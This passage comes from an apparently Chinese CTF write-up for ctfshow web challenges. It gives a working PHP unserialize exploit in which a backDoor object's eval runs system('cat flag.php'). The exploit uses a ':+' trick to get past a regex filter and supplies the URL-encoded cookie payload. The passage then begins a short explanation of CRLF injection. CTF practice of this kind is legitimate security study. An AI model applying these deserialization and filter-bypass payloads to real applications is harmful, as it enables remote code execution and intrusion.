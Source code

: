 ```php
class ctfShowUser{
    public $class = 'info';
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code="system('cat flag.php');";
    public function getInfo(){
        eval($this->code);
    }
}
$a =serialize(new ctfShowUser());
//echo $a."<br>";
$a=str_replace(':11',':+11',$a);
$a=str_replace(':8',':+8',$a);  //绕过preg_match(’/[oc]:\d+:/i’, $var),使用➕
echo $a."<br>";
echo urlencode($a);
```

序列化后的数据

```
O:+11:"ctfShowUser":1:{s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:23:"system('cat flag.php');";}}
O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27cat+flag.php%27%29%3B%22%3B%7D%7D
```

GET：

```
?username=xxxxxx&password=xxxxxx
```

COOKIE：

```
user=O%3A%2B11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%27cat+flag.php%27%29%3B%22%3B%7D%7D
```

## web259

https://y4tacker.blog.csdn.net/article/details/110521104

前置知识：

**CRLF注入攻击**
CRLF是“回车+换行”（\r\n）的简称，其十六进制编码分别为0x0d和0x0a。在HTTP协议中，HTTP header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码。CRLF漏洞常出现在Location与Set-cookie消息头中

[简明理解CRLF攻击](https://www.baidu.com/link?url=frWA5r_dswC2XIM7AURlU8PQyVOwZT2CV9jhvIpV3AzMG3n22WLJaJOU5E-3goUxWtppfs0LwhOIIm6bz6G9zuJXslvADwMk-XCOFH_bQlW&wd=&eqid=8d8217980013433e000000045fc873c4)

**题目首页**

